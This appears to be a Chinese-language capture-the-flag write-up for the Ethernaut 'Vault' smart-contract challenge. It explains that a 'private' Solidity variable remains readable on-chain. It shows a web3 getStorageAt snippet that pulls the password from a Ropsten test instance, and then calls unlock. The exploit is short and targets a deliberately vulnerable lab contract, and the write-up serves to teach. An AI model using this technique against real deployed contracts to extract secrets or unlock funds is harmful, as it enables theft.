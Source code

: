 # Vault
合约上任何数据都是公开的，即使是标记为private的变量
```solidity
pragma solidity ^0.4.18;

contract Vault {
  bool public locked;
  bytes32 private password;

  function Vault(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### 代码分析
需要调用合约的unlock(bytes32)方法来解锁合约，为此，必须要知道password。通过合约可以看出password在合约中是
一个private的storage变量，可以通过web3.eth.getStorageAt(address, index, callback)方法来获取到变量的具体值。

现以本人之前的instance为例：  
instance地址：0x9a9076bfdd4ed64598b3da08151010ae9f52d7fe
```js
var index = 0;
web3.eth.getStorageAt("0x9a9076bfdd4ed64598b3da08151010ae9f52d7fe", index, function(err, res){
    console.log(res);
})
```
index=0 : 0x0000000000000000000000000000000000000000000000000000000000000000  
index=1 : 0x412076657279207374726f6e67207365637265742070617373776f7264203a29  
其中index=1时，其值即为password。（注意web3的http地址使用ropsten测试网络rpc端口，可以在[infura](https://infura.io/)免费申请）

### 攻击方法
1. 调用合约unlock(password), password可以通过上述方法获得